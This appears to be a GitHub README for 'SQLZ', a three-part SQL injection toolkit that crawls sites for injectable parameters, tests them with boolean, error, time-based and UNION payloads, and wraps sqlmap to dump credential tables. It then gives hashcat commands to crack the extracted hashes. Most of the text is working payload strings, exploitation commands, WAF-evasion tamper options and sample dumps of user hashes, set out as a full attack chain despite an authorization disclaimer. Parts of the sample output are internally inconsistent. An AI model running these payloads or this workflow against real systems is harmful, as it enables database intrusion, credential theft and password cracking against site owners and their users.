



```
╔══════════════════════════════════════════════════════════════════════════════╗
║                                                                              ║
║    ███████╗ ██████╗ ██╗         ██╗  ██╗ █████╗ ███████╗██╗  ██╗           ║
║    ██╔════╝██╔═══██╗██║         ██║  ██║██╔══██╗██╔════╝██║  ██║           ║
║    ███████╗██║   ██║██║         ███████║███████║███████╗███████║           ║
║    ╚════██║██║▄▄ ██║██║         ██╔══██║██╔══██║╚════██║██╔══██║           ║
║    ███████║╚██████╔╝███████╗    ██║  ██║██║  ██║███████║██║  ██║           ║
║    ╚══════╝ ╚══▀▀═╝ ╚══════╝    ╚═╝  ╚═╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝           ║
║                                                                              ║
║              ██╗  ██╗ █████╗ ███████╗██╗  ██╗                               ║
║              ██║  ██║██╔══██╗██╔════╝██║  ██║                               ║
║              ███████║███████║███████╗███████║                               ║
║              ██╔══██║██╔══██║╚════██║██╔══██║                               ║
║              ██║  ██║██║  ██║███████║██║  ██║                               ║
║              ╚═╝  ╚═╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝                               ║
║                                                                              ║
║  ┌──────────────────────────────────────────────────────────────────────┐   ║
║  │   Author        :  Mr-Destroyer                                      │   ║
║  │   Instagram     :  @zimthegoat                                       │   ║
║  │   YouTube       :  @Study_Hard69                                     │   ║
║  │   Facebook      :  zimthegoat                                        │   ║
║  │   TryHackMe     :  tryhackme.com/p/MohammadZim                      │   ║
║  │   Tool Suite    :  SQLZ — SQL Injection Testing Toolkit v4.0        │   ║
║  │   Purpose       :  Authorized Penetration Testing Only              │   ║
║  └──────────────────────────────────────────────────────────────────────┘   ║
╚══════════════════════════════════════════════════════════════════════════════╝
```

---

# SQLZ — SQL Injection Testing Toolkit

## 📋 Overview

SQLZ is a comprehensive SQL injection testing suite composed of three powerful tools designed for authorized penetration testing:

| Tool | Purpose | Function |
|------|---------|----------|
| **sqlfinder.py** | SQL Parameter Discovery | Crawls target and identifies SQL injection candidate parameters |
| **vulntester.py** | Vulnerability Assessment | Tests parameters for multiple types of SQL injection vulnerabilities |
| **credsfinder.py** | Credential Extraction | Automatically dumps databases and extracts usernames/passwords/hashes |

---

## ⚠️ Important Legal Notice

**THIS TOOLKIT IS FOR AUTHORIZED PENETRATION TESTING ONLY**

- Only use on systems you own or have explicit written permission to test
- Unauthorized access to computer systems is illegal
- The author assumes no liability for misuse of this tool
- Always obtain proper authorization before testing

---

# Tool 1: sqlfinder.py - SQL Parameter Hunter

## 🎯 Purpose
Automatically crawls a website and identifies parameters vulnerable to SQL injection based on intelligent pattern matching and scoring algorithms.

## 📦 Requirements

```bash
pip install requests beautifulsoup4
```

## 🚀 Basic Usage

### Simple Crawl
```bash
python3 sqlfinder.py http://target.com
```

### Custom Depth & Delay
```bash
python3 sqlfinder.py http://target.com -d 5 --delay 0.5
```

### Save Results to File
```bash
python3 sqlfinder.py http://target.com -o results.txt
```

## 📸 Screenshot



## 📝 Parameters

| Parameter | Short | Description | Default |
|-----------|-------|-------------|---------|
| `target` | | Target URL to scan | **Required** |
| `--depth` | `-d` | Maximum crawl depth | `4` |
| `--delay` | | Delay between requests (seconds) | `0.3` |
| `--output` | `-o` | Output file for results | None |

## 🔍 How It Works

1. **Domain Validation** — Only crawls same-domain links
2. **Parameter Extraction** — Extracts all URL parameters and form inputs
3. **SQLi Scoring** — Scores parameters based on:
   - Parameter name patterns (e.g., `id`, `category`, `page`)
   - File type scoring (`.php?*`, `.asp`, etc.)
   - Column/table name keywords
4. **Result Ranking** — Reports candidates ranked by vulnerability likelihood (0-100)

## 📊 Scoring Criteria

### High-Risk Parameters (Score > 80)
- `id`, `user`, `uid`, `pid`, `cat`, `page`

### Medium-Risk Parameters (Score 50-80)
- `article`, `news`, `search`, `q`, `term`
- Patterns matching ID-like variables

### Lower-Risk Parameters (Score 10-50)
- Generic parameters with partial keyword matching

## 📤 Output Format

```
[85.5] http://target.com/page.php?id=5
    Params: id
    Payloads:
      curl 'http://target.com/page.php?id=1' OR '1'='1'
      curl 'http://target.com/page.php?id=1 AND 1=1--'
      curl 'http://target.com/page.php?id=-1' UNION SELECT NULL,database(),version()--'
```

## 💡 Example Workflow

```bash
# 1. Initial reconnaissance
python3 sqlfinder.py http://localhost/dvwa -d 3 -o candidates.txt

# 2. Review results
cat candidates.txt

# 3. Feed high-priority candidates to vulntester.py for detailed testing
```

---

# Tool 2: vulntester.py - SQL Injection Vulnerability Tester

## 🎯 Purpose
Performs comprehensive SQL injection testing using four detection methods:
- Boolean-based blind SQL injection
- Error-based SQL injection
- Time-based blind SQL injection
- UNION-based SQL injection

## 📦 Requirements

```bash
pip install requests
```

## 🚀 Basic Usage

### Simple Test
```bash
python3 vulntester.py -u "http://target.com/page?id=1"
```

### With Proxy
```bash
python3 vulntester.py -u "http://target.com/page?id=1" --proxy http://127.0.0.1:8080
```

### Multiple Threads
```bash
python3 vulntester.py -u "http://target.com/page?id=1" -t 20
```

## 📸 Screenshot



## 📝 Parameters

| Parameter | Short | Description | Default |
|-----------|-------|-------------|---------|
| `--url` | `-u` | Target URL with vulnerable parameter | **Required** |
| `--threads` | `-t` | Number of concurrent threads | `10` |
| `--proxy` | | HTTP proxy to route traffic through | None |

## 🧪 Detection Methods

### 1. Boolean-Based Blind (AND/OR)
Tests response changes when injecting TRUE/FALSE conditions
```
' AND 1=1--    (Should return TRUE results)
' AND 1=2--    (Should return FALSE results)
' OR 1=1--     (Should return TRUE results)
```

### 2. Error-Based
Triggers database error messages that leak version/structure info
```
' OR '1'='1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(...))x FROM information_schema.tables)--
' OR UPDATEXML(1,CONCAT(0x7e,(SELECT database()),0x7e),1)--
```

### 3. Time-Based Blind
Injects time delays to infer TRUE/FALSE from response timing
```
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
1' AND IF(1=1,SLEEP(5),0)--
' OR BENCHMARK(5000000,MD5(1))--
```

### 4. UNION-Based
Attempts to inject UNION queries to extract data directly
```
' UNION SELECT 1,2,3--
' UNION SELECT NULL,@@version,NULL--
' UNION SELECT 1,database(),3--
```

## 📊 Output Example

```
[*] Starting scan on: http://localhost/dvwa/vulnerability/sqli/?Submit=Submit
──────────────────────────────────────────────────────────────────────────
✓ Found 1 parameter(s): id
✓ Forms detected on page
──────────────────────────────────────────────────────────────────────────
[*] Probing parameter: id
[CRITICAL] [BOOLEAN] VULNERABLE! 4 payload(s) confirmed
[CRITICAL] [TIME] VULNERABLE! 2 payload(s) confirmed
[CRITICAL] [ERROR] VULNERABLE! 3 payload(s) confirmed
[UNION] No match found

╔═══════════════════════════════════════════════════════════════════════╗
║              SQL INJECTION TEST REPORT                               ║
╚═══════════════════════════════════════════════════════════════════════╝

⚠️  CRITICAL VULNERABILITY FOUND
   Parameter: id
   Type: BOOLEAN

   [Payload 1]
   Payload: ' AND 1=1--
   Evidence: MySQL detected

[CRITICAL] 3/1 parameters are vulnerable
[CRITICAL] 9 SQLi payloads confirmed

>>> IMMEDIATE ACTION REQUIRED <<<
```

## 💡 Example Workflow

```bash
# 1. Test a specific parameter
python3 vulntester.py -u "http://target.com/page?id=1"

# 2. Identify vulnerability types
# Review the report to see which injection methods work

# 3. Use results to guide credsfinder.py exploitation
```

---

# Tool 3: credsfinder.py - SQL Hash & Credential Extractor

## 🎯 Purpose
Leverages SQLmap's capabilities to automatically:
- Confirm SQL injection vulnerability
- Enumerate all databases
- Discover table structure
- Identify "juicy" tables (users, passwords, credentials)
- Dump sensitive data
- Extract and format credentials/hashes for cracking

## 📦 Requirements

```bash
# Install SQLmap
sudo apt install sqlmap

# Or manually:
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
chmod +x sqlmap.py

# Python dependencies
pip install requests
```

## 🚀 Basic Usage

### Simple Extraction
```bash
python3 credsfinder.py -u "http://target.com/page?id=1"
```

### POST with Parameters
```bash
python3 credsfinder.py -u "http://target.com/login.php" \
  -m POST -d "username=test&password=test"
```

### With Session Cookie
```bash
python3 credsfinder.py -u "http://127.0.0.1/dvwa/vulnerability/sqli/?Submit=Submit" \
  -p id \
  --cookie "security=low; PHPSESSID=abc123def456"
```

### Aggressive Testing
```bash
python3 credsfinder.py -u "http://target.com/page?id=1" \
  --level 3 --risk 2 --tamper space2comment \
  --threads 10
```

### Specify Database
```bash
python3 credsfinder.py -u "http://target.com/page?id=1" \
  --dbms mysql
```

## 📸 Screenshot



## 📝 Parameters

| Parameter | Short | Description | Default |
|-----------|-------|-------------|---------|
| `--url` | `-u` | Target URL | **Required** |
| `--param` | `-p` | Specific parameter to inject | Auto-detect |
| `--method` | `-m` | HTTP method (GET/POST) | `GET` |
| `--data` | `-d` | POST data body | "" |
| `--cookie` | | Session cookie string | "" |
| `--dbms` | | Force DBMS type | Auto-detect |
| `--level` | | SQLmap level (1-5) | `1` |
| `--risk` | | SQLmap risk (1-3) | `1` |
| `--threads` | | Number of threads | `4` |
| `--delay` | | Delay between requests (sec) | `0` |
| `--proxy` | | HTTP proxy URL | "" |
| `--tamper` | | Tamper scripts | "" |
| `--output` | `-o` | Output file | `hash_dump.txt` |

## 🔍 What It Does

### Phase 1: Confirmation & Database Enumeration
```
[→] Pre-flight — Detecting page type (form vs plain parameter)
[→] Step 1 — Confirming injection & listing all databases
  [+] Working with database: mysql
```

### Phase 2: Table Discovery
```
[→] Step 2 — Listing all tables in 'mysql'
  • information_schema
  • user ★ JUICY
  • password ★ JUICY
  • admin ★ JUICY
```

### Phase 3: Column Enumeration
```
[→] Step 3 — Enumerating columns for all tables
  [user] → username, password, email, role
  [admin] → admin_id, admin_name, admin_pass, admin_secret
```

### Phase 4: Intelligent Dumping
```
[→] Step 4 — Dumping 5 juicy table(s)
  [user] username, password, email
  [admin] admin_id, admin_name, admin_pass
```

### Phase 5: Data Extraction & Formatting
```
[TABLE: user]
───────────────────────────────────────────────────────
username              password                  email
───────────────────────────────────────────────────────
admin                 5f4dcc3b5aa765d61d8327deb882cf99  admin@site.com
user1                 202cb962ac59075b964b07152d234b70  user1@site.com
```

## 🤖 "Juicy" Criteria

The tool automatically targets tables/columns containing:

### Juicy Table Keywords
- user, account, member, admin, login, credentials
- staff, employee, customer, person, authentication
- secrets, tokens, keys, flags

### Juicy Column Keywords
- password, hash, pwd, secret, crypt, token
- username, name, login, email
- ssn, credit, card, phone, address
- privilege, role, admin

## 📊 Output Example

```
══════════════════════════════════════════════════════════════════
  SQL HASH EXTRACTOR v4.0 — by MrDestroyer
  Instagram : @zimthegoat
  TryHackMe : tryhackme.com/p/MohammadZim
══════════════════════════════════════════════════════════════════
  Target : http://localhost/dvwa/vulnerability/sqli/
══════════════════════════════════════════════════════════════════

[TABLE: users]

id                username              password
────────────────────────────────────────────────────────────────
1                 admin                 5f4dcc3b5aa765d61d8327deb882cf99
2                 user                  202cb962ac59075b964b07152d234b70
3                 gordonb               e0e1940723952d7f5aaab990476a902e

[TABLE: admin_users]

id                name                  pass_hash
────────────────────────────────────────────────────────────────
1                 superadmin            21232f297a57a5a743894a0e4a801fc3
2                 moderator             878ef96e86145fbbbc9c896fab00410e

═══════════════════════════════════════════════════════════════
📊 HASHCAT SUMMARY
═══════════════════════════════════════════════════════════════

# MD5 Hashes (Type 0)
5f4dcc3b5aa765d61d8327deb882cf99
202cb962ac59075b964b07152d234b70
e0e1940723952d7f5aaab990476a902e
21232f297a57a5a743894a0e4a801fc3
878ef96e86145fbbbc9c896fab00410e

═══════════════════════════════════════════════════════════════
[+] Full report saved → hash_dump.txt
═══════════════════════════════════════════════════════════════
```

## 🔓 Hash Cracking

After extraction, crack hashes with Hashcat:

```bash
# MD5 hashes (type 0)
hashcat -m 0 hash_dump.txt /usr/share/wordlists/rockyou.txt

# MySQL SHA1 (type 300)
hashcat -m 300 hash_dump.txt /usr/share/wordlists/rockyou.txt

# MSSQL 2000 (type 131)
hashcat -m 131 hash_dump.txt /usr/share/wordlists/rockyou.txt

# PostgreSQL MD5 (type 500)
hashcat -m 500 hash_dump.txt /usr/share/wordlists/rockyou.txt
```

## 🎯 Advanced Examples

### DVWA with Session
```bash
python3 credsfinder.py \
  -u "http://127.0.0.1/dvwa/vulnerability/sqli/?Submit=Submit" \
  -p id \
  --cookie "security=low; PHPSESSID=abc123" \
  -o dvwa_dump.txt
```

### Challenging Target (Coded WAF)
```bash
python3 credsfinder.py \
  -u "http://target.com/search.php?id=1" \
  --level 3 --risk 2 \
  --tamper space2comment,between \
  --delay 0.5 \
  --threads 8
```

### MSSQL Database
```bash
python3 credsfinder.py \
  -u "http://target.com/product.asp?id=1" \
  --dbms mssql \
  --level 2 --risk 2
```

### POST Form with Auth
```bash
python3 credsfinder.py \
  -u "http://target.com/search.php" \
  -m POST \
  -d "search_term=test&category=all" \
  -p search_term \
  --cookie "auth_token=xyz123abc"
```

---

# 🔄 Complete Penetration Testing Workflow

## Step 1: Discovery (sqlfinder.py)
```bash
python3 sqlfinder.py http://target.com -d 4 -o candidates.txt
```
**Output:** List of potential SQL injection parameters ranked by vulnerability likelihood

## Step 2: Validation (vulntester.py)
```bash
python3 vulntester.py -u "http://target.com/page?param=1"
```
**Output:** Confirmed vulnerability types and working payloads

## Step 3: Exploitation (credsfinder.py)
```bash
python3 credsfinder.py \
  -u "http://target.com/page?param=1" \
  -p param \
  --level 2 --risk 1 \
  -o results.txt
```
**Output:** Extracted credentials and hashes ready for cracking

## Step 4: Hash Cracking
```bash
hashcat -m 0 results.txt /usr/share/wordlists/rockyou.txt
```
**Output:** Cracked passwords

---

# 🛠️ Troubleshooting

## sqlfinder.py Issues

### "Connection refused"
- Ensure target is running
- Check firewall rules
- Verify URL format: `http://` or `https://`

### "No candidates found"
- Increase depth with `-d 5` or `-d 6`
- Decrease delay with `--delay 0.1`
- Check if site allows crawling

---

## vulntester.py Issues

### "No parameters found"
- Ensure URL includes query string: `http://site.com?id=1`
- Check parameter is actually vulnerable

### "All tests timed out"
- Target might be slow or blocking requests
- Add proxy: `--proxy http://127.0.0.1:8080`
- Increase timeout in code

### "No vulnerabilities detected"
- Target might not be vulnerable with default payloads
- Try with credsfinder.py using `--level 3 --risk 2`

---

## credsfinder.py Issues

### "sqlmap binary not found"
```bash
# Install sqlmap
sudo apt install sqlmap

# Or check if already installed
which sqlmap
```

### "not injectable with current settings"
- Try higher level/risk:
  ```bash
  --level 3 --risk 2
  ```
- Try tamper scripts:
  ```bash
  --tamper space2comment,between
  ```

### "Could not determine current database"
- Database might be locked down
- Try forcing DBMS: `--dbms mysql`
- Increase level: `--level 4 --risk 3`

### No data dumped
- Table names might not match keywords
- Manually edit JUICY_TABLE_KW and JUICY_COL_KW
- Try dumping all tables: modify source code to remove juicy filter

---

# 📚 Parameter Patterns Reference

## High-Risk Parameter Names
```
id, user, uid, pid, cid, gid, aid, tid, nid, sid
cat, category, page, section, view, item
article, news, story, post, blog, entry, topic
search, q, s, query, term, keyword
```

## Vulnerable File Patterns
```
*.php?*       (PHP with parameters)
*.asp?*       (ASP with parameters)
*.aspx?*      (ASP.NET with parameters)
id.php, user.php, admin.php, login.php
index.php?*, show.php, view.php, detail.php
```

---

# 🔐 Security Best Practices

1. **Always Get Authorization**
   - Written permission before testing
   - Stay within scope
   - Document authorization

2. **Use Responsibly**
   - Don't overload targets
   - Use `--delay` parameter
   - Reduce `--threads` on sensitive systems

3. **Protect Results**
   - Encrypt extracted data
   - Secure credential files
   - Clean up after testing

4. **Legal Compliance**
   - Follow local laws
   - Report findings responsibly
   - Never access data beyond scope

---

# 📞 Contact & Social

- **Author**: Mr-Destroyer
- **Instagram**: [@zimthegoat](https://instagram.com/zimthegoat)
- **YouTube**: [@Study_Hard69](https://youtube.com/@Study_Hard69)
- **Facebook**: [zimthegoat](https://facebook.com/zimthegoat)
- **TryHackMe**: [MohammadZim](https://tryhackme.com/p/MohammadZim)

---

# 📄 Version History

- **v4.0** (Current) - Complete rewrite with automated credential extraction
- **v3.0** - Added time-based detection
- **v2.0** - Multi-threaded testing
- **v1.0** - Initial release

---

**Last Updated**: February 2026  
**License**: Educational Use Only  
**Status**: Active Development

```
═══════════════════════════════════════════════════════════════════════════════
                              HAPPY HUNTING! 🎯
═══════════════════════════════════════════════════════════════════════════════
```
